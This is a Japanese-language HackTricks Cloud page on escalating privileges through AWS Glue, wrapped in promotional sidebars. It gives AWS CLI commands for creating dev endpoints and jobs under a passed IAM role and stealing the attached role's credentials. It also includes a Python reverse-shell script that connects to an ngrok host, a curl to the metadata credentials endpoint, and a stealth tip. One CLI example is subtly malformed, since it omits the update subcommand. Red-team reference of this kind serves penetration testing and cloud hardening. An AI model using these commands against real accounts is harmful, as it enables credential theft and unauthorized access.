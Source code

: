 # AWS - Glue Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**のGitHubリポジトリにPRを提出して、あなたのハッキングのコツを共有してください。

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

これらの権限を持つユーザーは、**新しいAWS Glue開発エンドポイントを設定**し、特定の権限を持つ既存のサービスロールをこのエンドポイントに**割り当てる**ことができます。

セットアップ後、**攻撃者はエンドポイントのインスタンスにSSHで接続**し、割り当てられたロールのIAMクレデンシャルを盗むことができます。
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
ステルス目的のため、Glueの仮想マシン内部からIAMクレデンシャルを使用することを推奨します。

**潜在的な影響：** Glueサービスロールへの権限昇格が指定されています。

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

この権限を持つユーザーは、既存のGlue開発エンドポイントのSSHキーを**変更し、それにSSHアクセスを可能にする**ことができます。これにより、攻撃者はエンドポイントに添付されたロールの権限でコマンドを実行できます：
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**潜在的な影響：** Glue サービスロールへの Privesc。

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** と **`glue:CreateJob` または `glue:UpdateJob`**、そして **`glue:StartJobRun` または `glue:CreateTrigger`** を組み合わせたユーザーは、任意の **Glue サービスアカウント** を添付して **AWS Glue ジョブを作成または更新** し、ジョブの実行を開始できます。ジョブの機能には任意の Python コードの実行が含まれ、これを悪用してリバースシェルを確立することができます。このリバースシェルは、Glue ジョブに添付されたロールの **IAM 資格情報** を抽出するために利用され、そのロールの権限に基づいた潜在的な不正アクセスや行動につながる可能性があります：
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在的な影響:** glueサービスロールに対するPrivescが指定されました。

### `glue:UpdateJob`

更新権限だけで、攻撃者は既にアタッチされたロールのIAMクレデンシャルを盗むことができます。

**潜在的な影響:** アタッチされたglueサービスロールに対するPrivesc。

## 参照

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、私たちの独占的な[**NFTコレクション**](https://opensea.io/collection/the-peass-family)をチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有**してください。

</details>
